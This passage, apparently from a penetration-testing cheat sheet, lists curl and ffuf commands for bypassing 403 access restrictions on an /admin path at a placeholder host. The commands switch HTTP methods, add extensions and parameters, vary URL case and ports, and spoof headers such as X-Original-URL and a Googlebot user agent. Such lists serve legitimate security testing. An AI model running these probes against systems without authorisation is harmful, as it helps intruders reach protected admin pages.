 ### HTTP Method Switching

```bash
# Try different HTTP methods 
curl -X POST https://target.com/admin
curl -X PUT https://target.com/admin
curl -X PATCH https://target.com/admin
curl -X OPTIONS https://target.com/admin
curl -X TRACE https://target.com/admin

# FFUF for testing all methods
ffuf -w methods.txt:METHOD -u https://target.com/admin -X METHOD -fs 403
```

### Extension and Parameter Manipulation

```bash
# Adding file extensions
curl https://target.com/admin.json
curl https://target.com/admin.php
curl https://target.com/admin.html
curl https://target.com/admin.js

# Adding parameters
curl https://target.com/admin?param=1
curl https://target.com/admin?id=1
curl https://target.com/admin?admin=true
curl https://target.com/admin?debug=true
```

### URL and Port Manipulation

```bash
# URL case modifications
curl https://target.com/Admin
curl https://target.com/ADMIN
curl https://target.com/aDmIn

# Port specification
curl https://target.com:443/admin
curl https://target.com:80/admin

# Adding authentication information
curl https://user@target.com/admin
```

### Combination Techniques

```bash
# Using multiple techniques together
curl -H "X-Original-URL: /admin" -X POST -A "Googlebot" https://target.com/

# Using FFUF for testing combinations
ffuf -w headers.txt:HEADER -w values.txt:VALUE -u https://target.com/admin -H "HEADER: VALUE" -fc 403
```
